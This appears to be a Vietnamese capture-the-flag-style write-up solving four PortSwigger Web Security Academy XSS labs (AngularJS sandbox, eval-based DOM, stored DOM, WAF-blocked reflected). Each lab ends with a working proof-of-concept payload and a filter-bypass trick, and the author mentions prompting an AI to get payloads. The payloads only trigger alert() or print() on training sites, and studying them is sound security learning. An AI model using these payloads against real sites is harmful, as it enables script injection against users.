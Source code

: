 ### Lab: DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded

- Kiểm tra phiên bản trang web.
    - AngularJS 1.7.7 -> Thử 1 chút research XSS vuln cho phiên bản này

    ![alt text](image-1.png)

- Prompt AI 1 chút để lấy payload. Thử lần lượt các payload trả về 

    ![alt text](image-2.png)

- Thành công alert ở payload thứ 2. Và thế là solve 

    ![alt text](image-3.png)

    ![alt text](image.png)

- PoC

    ```xml
    /?search=%7B%7Bconstructor.constructor%28%27alert%281%29%27%29%28%29%7D%7D
    ```

### Lab: Reflected DOM XSS

- Lỗ hổng Reflected DOM-based XSS trong hàm eval()

    ![alt text](image-5.png)

    - Giờ tạo payload để nó chạy lệnh eval. Nó sẽ trông như này
    ```js
    var searchResultsObj = { "searchTerm": "\"-alert(1)}//", "results": [] };
    ```
    - Hay tương đương với
    ```js
    var searchResultsObj = {"searchTerm":""-alert(1)}//","results":[]};
    ```

- Thành công alert

    ![alt text](image-4.png)

- PoC

    ```
    /?search=%5C"-alert%281%29%7D%2F%2F
    ```

### Lab: Stored DOM XSS

- Hàm này chỉ thay 1 lần cặp dấu `<>` 

    ![alt text](image-6.png)

    - Thử tạo thêm 1 cặp `<>` để bypass nó. Trông sẽ như này
    ```js
    <><img src=1 onerror=alert(1)>
    ```
    - Sau khi replace, nó sẽ thành như này
    ```js
    &lt;><img src=1 onerror=alert(1)>
    ```

- Thành công alert 

    ![alt text](image-8.png)

- Solve

    ![alt text](image-7.png)

- Poc

    ```js
    <><img src=1 onerror=alert(1)>
    ```

### Lab: Reflected XSS into HTML context with most tags and attributes blocked

- Thử 1 số payload thì bị chặn bởi WAF

    ![alt text](image-9.png)

    - Tuy nhiên, `<>` lại không bị chặn -> WAF chỉ chặn các từ có trong blacklist như alert ...

    ![alt text](image-10.png)

- Thử brute force các thẻ bằng [tags.txt](tags.txt)

    - Hầu hết các thẻ đều bị WAF chặn, trừ `body`, `custom tags`

    ![alt text](image-11.png)

- Tiếp tục thử với các events hợp lệ -> `onresize` khả dụng cho payload để mở máy in `print()` 

    ![alt text](image-12.png)


- Gửi payload tới server

    ![alt text](image-13.png)

    - Solve

    ![alt text](image-14.png)

- PoC

    ```js
    <iframe src="https://0af300d50423837481e4b137001c0014.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
    ```


